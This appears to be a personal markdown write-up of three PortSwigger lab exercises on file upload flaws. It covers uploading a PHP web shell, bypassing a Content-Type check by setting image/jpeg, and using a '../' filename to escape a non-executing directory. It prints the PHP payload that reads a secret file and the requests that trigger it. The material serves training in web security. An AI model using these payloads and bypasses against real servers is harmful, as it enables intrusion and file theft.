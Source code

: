 # Lab 1: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- Login to the given account > Upload an image > Observe the Request & Response in HTTP History > Prepare a web-shell php file script > Upload it > Send the Get Request to Repeater > Change the path to your file.
- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`

> Web shell is a `malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests` to the right endpoint.
> A MIME type (also known as a Multipurpose Internet Mail Extension) is a standard that indicates the format of a file.


# Lab 2: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- Login to the given account > Upload an image > (It'll not allow) > Intercept the php File upload Request > Check the `Content-Type` header > Change its value to `image/jpeg` > Send the Request (It will allow this time)
- Observe the Request & Response in HTTP History >  Send the Get Request to Repeater > Change the path to your file. 

- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`

# Lab 3:
- Login to the given account > Upload an image > Observe the Request & Response in HTTP History > Prepare a web-shell php file script > Upload it > Send the Get Request to Repeater > Change the path to your file.
- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`

- This time the GET request will return the PHP file's content.
- Modify the `filename="../exploit.php"` in POST request of File Upload:
- ![image](https://github.com/user-attachments/assets/f5609d72-4ba5-4ec2-a68e-e5b0612ae81c)

- Observe the GET Request's response: Web shell File path: `GET /files/avatars/../exploit.php HTTP/1.1`
- ![image](https://github.com/user-attachments/assets/7b066cb1-a89a-4529-b7f4-a86762e0707b)









